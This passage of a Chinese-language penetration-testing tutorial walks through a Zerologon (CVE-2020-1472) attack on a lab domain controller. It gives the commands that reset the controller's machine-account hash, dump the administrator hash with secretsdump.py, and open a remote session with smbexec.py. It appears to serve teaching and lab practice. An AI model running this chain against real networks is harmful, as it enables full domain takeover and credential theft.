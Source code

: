 #### （2）重置域控哈希

确定目标域控存在 Netlogon 权限提升漏洞后，使用 CVE-2020-1472.py 脚本执行如下命令对其进行攻击。

```
#攻击，使域控的机器账号哈希置为空
python3 CVE-2020-1472.py AD01 AD01$ 10.211.55.4
```

如图所示，使用 CVE-2020-1472.py 脚本对域控进行攻击，该脚本会将目标域控的机器账号哈希置为空，可以看到攻击成功！

> 将域控的机器账号哈希置为空可以使攻击者绕过身份验证，因为系统在验证时会失败，导致域控无法识别有效的机器账户。

![截图](9b8a4d350ac9ff4168c180d0a8a5150d.png)

#### （3）远程连接域控

攻击成功后，此时目标域控的机器账号`AD01$`的密码已经置为空了。由于域控机器账号默认在域内具有 DCSync 的权限。因此，我们可以使用目标域控机器账号`AD01$`远程连接域控，指定哈希为空，使用 secretsdump.py 脚本导出域内任意用户哈希，我们这里导出域管理员 administrator 的哈希。再利用域管理员administrator 的哈希远程连接域控！

```
#使用 AD01$机器账号，哈希为空连接，导出 administrator 用户的哈希
python3 secretsdump.py "xie/AD01$"@10.211.55.4 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 -just-dc-user "administrator"

#然后用 administrator 用户的哈希连接域控
python3 smbexec.py xie/administrator@10.211.55.4 -hashes aad3b435b51404eeaad3b435b51404ee:33e17aa21ccc6ab0e6ff30eecb918dfb
```

如图所示，可以看到导出域管理员 administrator 的哈希，并成功连接域控AD01。

![截图](e958cc33b042d34f9df1517b404e23c2.png)
